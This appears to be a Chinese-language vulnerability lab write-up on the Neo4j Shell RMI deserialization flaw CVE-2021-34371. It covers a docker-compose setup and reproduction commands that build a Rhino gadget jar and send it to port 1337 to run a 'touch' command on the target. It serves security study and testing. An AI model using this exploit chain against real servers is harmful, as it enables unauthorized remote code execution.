


# Neo4j Shell Server 反序列化漏洞 CVE-2021-34371

## 漏洞描述

Neo4j是一个开源图数据库管理系统。

在Neo4j 3.4.18及以前，如果开启了Neo4j Shell接口，攻击者将可以通过RMI协议以未授权的身份调用任意方法，其中`setSessionVariable`方法存在反序列化漏洞。因为这个漏洞并非RMI反序列化，所以不受到Java版本的影响。

在Neo4j 3.5及之后的版本，Neo4j Shell被Cyber Shell替代。

参考链接：

- https://www.exploit-db.com/exploits/50170
- https://github.com/mozilla/rhino/issues/520

## 环境搭建

如果你使用Linux或OSX系统，可以执行如下命令启动一个Neo4j 3.4.18：

```
TARGET_IP=<your-ip> docker-compose up -d
```

其中，环境变量`TARGET_IP`需要制定靶场环境的IP地址。

如果你是Windows系统，请直接修改`docker-compose.yml`，指定`TARGET_IP`环境变量的值。

服务启动后，访问`http://your-ip:7474`即可查看到Web管理页面，但我们需要攻击的是其1337端口，这个端口是Neo4j Shell端口，使用RMI协议通信。

## 漏洞复现

使用[参考链接](https://www.exploit-db.com/exploits/50170)中的Java RMI客户端，集成基于Rhino的[Gadget](https://github.com/vulhub/vulhub/blob/master/neo4j/CVE-2021-34371/rhino_gadget)，发送RMI请求：

```
$ mvn install
$ cp target/rhino_gadget-1.0-SNAPSHOT-fatjar.jar ./
$ java -jar rhino_gadget-1.0-SNAPSHOT-fatjar.jar rmi://192.168.174.128:1337 "touch /tmp/success"
```



可见，`touch /tmp/success5`已成功执行：

